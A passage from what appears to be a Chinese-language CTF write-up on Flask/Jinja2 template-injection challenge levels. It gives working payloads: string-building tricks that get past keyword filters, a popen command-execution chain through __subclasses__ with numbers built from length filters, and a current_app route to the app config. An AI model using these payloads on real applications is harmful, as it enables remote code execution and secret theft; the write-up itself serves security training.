 3. 使用`join`过滤器.例如使用`{%set a=dict(__cla=a,ss__=a)|join%}{{a}}`,会将`__cla`和`ss__`拼接在一起,或者`{%set a=['__cla','ss__']|join%}{{a}}`

4. 使用`reverse`过滤器.如`{%set a="__ssalc__"|reverse%}{{a}}`

5. 使用`replace`过滤器.如`{%set a="__claee__"|replace("ee","ss")%}{{a}}`

6. 利用 python 的`char()`.例如

   ```python
   {% set chr=url_for.__globals__['__builtins__'].chr %}
   {{""[chr(95)%2bchr(95)%2bchr(99)%2bchr(108)%2bchr(97)%2bchr(115)%2bchr(115)%2bchr(95)%2bchr(95)]}}
   ```

   …

### Level 9 bypass number

![image-20210926143646554](https://particles.oss-cn-beijing.aliyuncs.com/img/image-20210926143646554.png)

从提示可以看出 ban 了所有数字,所以这道题得想办法构造数字.使用过滤器`|length`可以绕过

使用过滤器构造 132

`{% set a='aaaaaaaaaaa'|length*'aaa'|length*'aaaa'|length %}{{a}}`

![image-20210926150339261](https://particles.oss-cn-beijing.aliyuncs.com/img/image-20210926150339261.png)

`{{()['__class__']['__base__']['__subclasses__']()[132]['__init__']['__globals__']['popen']('cat flag')['read']()}}`

构造 payload,拿到 flag

`{% set a='aaaaaaaaaaa'|length*'aaa'|length*'aaaa'|length %}{{()['__class__']['__base__']['__subclasses__']()[a]['__init__']['__globals__']['popen']('cat flag')['read']()}}`

![image-20210926150534193](https://particles.oss-cn-beijing.aliyuncs.com/img/image-20210926150534193.png)

### Level 10

![image-20210926143655782](https://particles.oss-cn-beijing.aliyuncs.com/img/image-20210926143655782.png)

这一关的目的是拿到 config,当我们使用`{{config}}`以及`{{self}}`时都返回了 None.看来是被 ban 了,所以得重新寻找一个储存相关信息的变量.

[通过寻找](https://ctftime.org/writeup/11036),发现存在这么一个变量`current_app`是我们需要的.[官网](http://docs.jinkan.org/docs/flask/appcontext.html)对`current_app`提供了这么一句说明

> 应用上下文会在必要时被创建和销毁。它不会在线程间移动，并且也不会在不同的请求之间共享。正因为如此，它是一个存储数据库连接信息或是别的东西的最佳位置。

因此,此处能使用`current_app`绕过.

构造 payload,拿到 config
`{{url_for.__globals__['current_app'].config}}`
`{{get_flashed_messages.__globals__['current_app'].config}}`

### Level 11 bypass combination1
